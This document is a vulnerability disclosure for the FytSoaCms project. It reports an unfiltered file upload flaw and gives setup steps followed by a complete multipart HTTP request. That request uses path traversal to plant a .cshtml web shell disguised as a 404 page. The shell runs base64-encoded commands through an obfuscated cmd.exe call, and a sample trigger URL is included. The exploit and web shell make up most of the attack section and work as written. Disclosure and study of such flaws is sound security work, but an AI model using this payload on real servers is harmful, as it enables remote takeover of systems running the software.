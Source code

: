 # <font style="color:rgb(0, 0, 0);">Vulnerability Introduction</font>

<font style="color:rgb(0, 0, 0);">Project Address：</font>[https://github.com/feiyit/FytSoaCms](https://github.com/feiyit/FytSoaCms)

Project Name：[FytSoaCms](https://github.com/feiyit/FytSoaCms)

There is an arbitrary file upload vulnerability

# <font style="color:rgb(0, 0, 0);">Vulnerability Analysis</font>

The Index method in the file FytSoaCms-master\FytSoa.Api\Controllers\Admin\FileUploadController.cs

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1758246169515-9865f857-c5df-4bc4-8fd4-2f11175743fc.png)

<font style="color:rgba(0, 0, 0, 0.85);">Because it directly retrieves the filename and suffix from the data packet and uses them as the filename for local storage without any filtering, attackers can upload cshtml files and further take control of the server.</font>

# <font style="color:rgb(0, 0, 0);">Vulnerability Reproduction</font>

<font style="color:rgba(0, 0, 0, 0.85);">Start Redis 3.2.100 and MySQL 5.7.26</font>  
<font style="color:rgba(0, 0, 0, 0.85);">Modify FytSoaCms-master\FytSoa.Web\appsettings.json to configure MySQL and Redis connection information</font>

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1758246560735-a4bae8d6-74a8-4b68-8c03-fc840bc1aaed.png)



<font style="color:rgba(0, 0, 0, 0.85) !important;">Modify the MySQL connection information in FytSoaCms-master\FytSoa.Api\appsettings.json</font>

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1758246639280-f8bfba81-9f18-497e-af2c-6f88df8b2847.png)



<font style="color:rgba(0, 0, 0, 0.85);">Navigate to the </font>`<font style="color:rgba(0, 0, 0, 0.85);">FytSoaCms-master\FytSoa.Web</font>`<font style="color:rgba(0, 0, 0, 0.85);"> directory and open the command line.</font>  
<font style="color:rgba(0, 0, 0, 0.85);">Run </font>`<font style="color:rgba(0, 0, 0, 0.85);">dotnet run</font>`

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1758246692062-ee05a409-77a5-4d96-8a1e-578d2d44f32f.png)

`<font style="color:rgba(0, 0, 0, 0.85) !important;">.NET Core 2.2.8</font>`<font style="color:rgba(0, 0, 0, 0.85);"> may need to be installed first.</font><font style="color:rgba(0, 0, 0, 0.85) !important;"> </font>

[https://dotnet.microsoft.com/en-us/download/dotnet/2.2](https://dotnet.microsoft.com/en-us/download/dotnet/2.2)

<font style="color:rgba(0, 0, 0, 0.85) !important;"></font>

<font style="color:rgba(0, 0, 0, 0.85) !important;">Upload the file</font>

```csharp
POST /api/upload/Index HTTP/1.1
Host: localhost:4912
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary93C7QCtjWsrq4Mbu
Accept-Encoding: gzip, deflate, br, zstd
Accept: application/json, text/javascript, */*; q=0.01
sec-ch-ua-mobile: ?0
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-origin
sec-ch-ua-platform: "Windows"
Origin: http://localhost:4912
Sec-Fetch-Mode: cors
Content-Length: 539

------WebKitFormBoundary93C7QCtjWsrq4Mbu
Content-Disposition: form-data; name="file"; filename="../../../Pages/Index2.cshtml"
Content-Type: application/octet-stream


@page
@using System.Text
@model ErrorModel
@{
    ViewData["Title"] = "Error";
    Layout = null;
}
@{
    if (HttpContext.Request.Query.ContainsKey("content"))
    {
        String content = System.Text.Encoding.GetEncoding("utf-8").GetString(Convert.FromBase64String(HttpContext.Request.Query["content"]));
        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = "c@m@d.e@x@e".Replace("@", "");
        p.StartInfo.Arguments = "/c " + content;
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.StartInfo.RedirectStandardError = true;
        p.Start();
        byte[] data = System.Text.Encoding.Default.GetBytes(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());
        <pre>@Encoding.UTF8.GetString(data)</pre>
    }
}
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>QYZQ</title>
<meta name="viewpoint" content="width=device-width,initial-scale=1">
<link rel="stylesheet" href="/themes/404/404.css" />
<script src="http://cdn.feiyit.com/jquery/jquery.min.js"></script>
</head>
<body>
<div class="code">
<p>ERROR 404</p>
</div>
<div class="road">
<div class="shadow">
<div class="shelt">
<div class="head">
<div class="eyes">
<div class="lefteye">
<div class="eyeball"></div>
<div class="eyebrow"></div>
</div>
<div class="righteye">
<div class="eyeball"></div>
<div class="eyebrow"></div>
</div>
</div>
</div>
</div>
<div class="hat"></div>
<div class="bubble">
<a href="/">Go back Home?</a>
</div>
</div>
</div>
<script type="text/javascript" src="/themes/404/404.js"></script>
</body>
</html>
------WebKitFormBoundary93C7QCtjWsrq4Mbu
Content-Disposition: form-data; name="type"

a
------WebKitFormBoundary93C7QCtjWsrq4Mbu--

```

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1758246876752-e8b033f7-183e-47a9-83ab-bda25da6a645.png)



<font style="color:rgba(0, 0, 0, 0.85);">Access the page, and you can see that the C# code in </font>`<font style="color:rgba(0, 0, 0, 0.85);">Index2.cshtml</font>`<font style="color:rgba(0, 0, 0, 0.85);"> is executed.</font>

[http://localhost:4912/index2?content=ZGly](http://localhost:4912/index2?content=ZGly)

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1758246978974-934d15a9-3508-4703-a6ce-f3bb820fd2ad.png)



